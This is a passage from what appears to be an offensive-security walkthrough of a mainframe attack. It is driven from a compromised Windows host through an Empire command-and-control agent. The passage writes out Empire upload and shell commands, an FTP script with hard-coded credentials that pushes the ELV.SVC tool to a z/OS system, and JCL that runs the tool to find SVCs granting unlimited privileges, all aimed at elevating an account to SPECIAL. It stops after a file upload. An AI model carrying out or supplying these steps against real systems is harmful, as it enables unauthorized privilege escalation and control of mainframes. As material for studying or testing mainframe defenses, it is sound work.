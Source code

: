 We can leverage existing tools for these tasks. For Man in the Middle attacks, Mainframed767’s tool SETn3270 is useful but requires dependencies like OpenSSL. As a last resort, we could compile it into an EXE.

Additionally, we can use ELV.SVC from ayoul3’s GitHub repository to locate and analyze "magic" SVC functions. This tool identifies SVCs that grant unlimited privileges and checks their protections. We can then create a program to exploit these SVCs, gaining full privileges and elevating our account to SPECIAL status.

ELV.SVC is a REXX script, similar to Python on z/OS. We need to transfer it to the mainframe and submit a JOB to execute the script:

```
(Empire: SalesFTP) > upload /root/ELV.SVC C:\Users\sysback\AppData\Local\
```

Create the FTP script to upload ELV.SVC:

```
// FTP script saved as ftp_svc.txt
open 192.168.1.200
FTPSRV
PASS01
put C:\Users\sysback\AppData\Local\ELV.SVC
quit
```

Upload and run the FTP script:

```
(Empire: SalesFTP) > upload /root/ftp_svc.txt C:\Users\sysback\AppData\Local\ftp_svc.txt
(Empire: SalesFTP) > shell ftp -i -s:ftp_svc.txt > result.txt
```

Check the output file:

```
(Empire: SalesFTP) > shell type result.txt
```

The JCL cards to execute this script are the same as before. The ‘LIST’ option passed to ELV.SVC searches for magic SVC in memory:

```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
ex 'FTPSRV.ELV.SVC' 'LIST'
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT2,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

Save the JCL script to a file (e.g., "SEARCH.JOB") and upload it:

```
(Empire: SalesFTP) > upload /root/SEARCH_JOB.JCL C:\Users\sysback\AppData\Local\SEARCH.JOB
```

